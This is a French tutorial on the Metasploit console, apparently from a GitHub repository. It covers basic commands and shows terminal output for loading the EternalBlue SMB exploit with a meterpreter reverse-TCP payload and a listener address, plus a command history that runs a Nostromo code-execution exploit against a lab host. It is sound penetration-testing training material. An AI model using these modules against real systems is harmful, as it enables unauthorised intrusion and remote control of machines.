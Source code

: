 
La **console metasploit** est l'outil avec lequel on va **interragir avec nos modules**, pour la lancé la commande est **`msfconsole`**.

```shell
┌──(azure㉿kali)-[~]
└─$ msfconsole

                                  .::::::::::-.                     .::::::-
                                .hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo
                                 :Nm-/NMMMMMMMMMMMMM$$NMMMMm&&MMMMMMMMMMMMMMy
                                 .sm/`-yMMMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMMh`
                                  -Nd`  :MMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMh`
                                   -Nh` .yMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMm/
    `oo/``-hd:  ``                 .sNd  :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMm/
      .yNmMMh//+syysso-``````       -mh` :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMd
    .shMMMMN//dmNMMMMMMMMMMMMs`     `:```-o++++oooo+:/ooooo+:+o+++oooo++/
    `///omh//dMMMMMMMMMMMMMMMN/:::::/+ooso--/ydh//+s+/ossssso:--syN///os:
          /MMMMMMMMMMMMMMMMMMd.     `/++-.-yy/...osydh/-+oo:-`o//...oyodh+
          -hMMmssddd+:dMMmNMMh.     `.-=mmk.//^^^\\.^^`:++:^^o://^^^\\`::
          .sMMmo.    -dMd--:mN/`           ||--X--||          ||--X--||
........../yddy/:...+hmo-...hdd:............\\=v=//............\\=v=//.........



       =[ metasploit v6.3.10-dev-                         ]
+ -- --=[ 2303 exploits - 1203 auxiliary - 412 post       ]
+ -- --=[ 965 payloads - 46 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: When in a module, use back to go
back to the top level prompt
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```

Une fois lancé, vous pouvez interragir avec la console comme si c'était un **shell banal à l'exception de quelques commandes** comme ci-dessous :

```shell
msf6 > help > help.txt 
[-] No such command 
msf6 >
```

On peut utiliser la commande **`help`** afin d'avoir des **informations sur des commandes** :

```shell
msf6 > help set
Usage: set [option] [value]

Set the given option to value. If value is omitted, print the current value.
If both are omitted, print options that are currently set.

If run from a module context, this will set the value in the module's
datastore. Use -g to operate on the global datastore. 

If setting a PAYLOAD, this command can take an index from `show payloads'.

msf6 >
```

On peut utiliser la commande **`history`** pour avoir l'historique des commandes tapées précédemment.

```shell
msf6 > history 
1 use exploit/multi/http/nostromo_code_exec
2 set lhost 10.10.16.17 
3 set rport 80 
4 options 
5 set rhosts 10.10.29.187
6 run 
7 exit 
8 exit -y 
9 version 
10 use exploit/multi/script/web_delivery
```

La commande **`use`** permet d'utiliser un module. 

```shell
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Vous remarquerez qu'on peut toujours utiliser les commandes comme `ls`, cela signifie qu'on est pas entré dans un dossier comme on pourrait croire.

Une commande importante lorsqu'on veut utiliser un module, est **`show options`**, elle nous affiche les options qu'attends le module.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue): 

	Name          Current Setting Required Description 
	----          --------------- -------- ----------- 
	RHOSTS                        yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
	RPORT         445             yes The target port (TCP)
	SMBDomain     .               no (Optional) The Windows domain to use for authentication
	SMBPass                       no (Optional) The password for the specified username
	SMBUser                       no (Optional) The username to authenticate as 
	VERIFY_ARCH   true            yes Check if remote architecture matches exploit Target.
	VERIFY_TARGET true            yes Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp): 

Name     Current Setting Required Description
----     --------------- -------- ----------- 
EXITFUNC thread          yes      Exit technique (Accepted: '', seh, thread, process, none) 
LHOST    10.10.220.191   yes      The listen address (an interface may be specified) 
LPORT    4444            yes      The listen port

Exploit target: 

	Id Name 
	-- ---- 
	0  Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

La commande **`show`**  peut être utilisé avec tout type de modules :

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

Compatible Payloads
===================

#  Name                                  Disclosure Date Rank Check Description
-  ----                                  --------------- ---- ----- ----------- 
0  generic/custom                        manual No Custom Payload
1  generic/shell_bind_tcp                manual No Generic Command Shell, Bind TCP Inline
2  generic/shell_reverse_tcp             manual No Generic Command Shell, Reverse TCP Inline 
3  windows/x64/exec                      manual No Windows x64 Execute Command 
4  windows/x64/loadlibrary          manual No Windows x64 LoadLibrary Path
5  windows/x64/messagebox manual No Windows MessageBox x64 
6  windows/x64/meterpreter/bind_ipv6_tcp manual No Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
7  windows/x64/meterpreter/bind_ipv6_tcp_uuid manual No Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
```

